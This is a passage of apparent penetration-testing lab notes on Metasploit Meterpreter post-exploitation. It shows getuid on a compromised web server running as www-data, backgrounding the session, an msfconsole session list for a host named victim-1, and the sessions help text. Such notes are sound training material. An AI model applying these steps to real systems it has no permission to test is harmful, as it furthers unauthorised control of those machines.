 ```
getuid
```

```bash
Server username: www-data (33)
```

- Unprivileged session with the `www-data` user

### background

```bash
background
```

```bash
# Puts the session in background
```

- Keyboard shortcut: `CTRL+Z`

### sessions

```bash
sessions
# In msfconsole
```

```bash
Active sessions
===============
  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter php/linux  www-data (33) @ victim-1  192.170.151.2:4444 -> 192.170.151.3:51678 (192.170.151.3)

# Manage Active MSF sessions
```

```bash
sessions -h
```

```bash
OPTIONS:
    -C <opt>  Run a Meterpreter Command on the session given with -i, or all
    -K        Terminate all sessions
    -S <opt>  Row search filter.
    -c <opt>  Run a command on the session given with -i, or all
    -d        List all inactive sessions
    -h        Help banner
    -i <opt>  Interact with the supplied session ID
    -k <opt>  Terminate sessions by session ID and/or range
    -l        List all active sessions
    -n <opt>  Name or rename a session by ID
    -q        Quiet mode
    -s <opt>  Run a script or module on the session given with -i, or all
    -t <opt>  Set a response timeout (default: 15)
    -u <opt>  Upgrade a shell to a meterpreter session on many platforms
    -v        List all active sessions in verbose mode
    -x        Show extended information in the session table
```
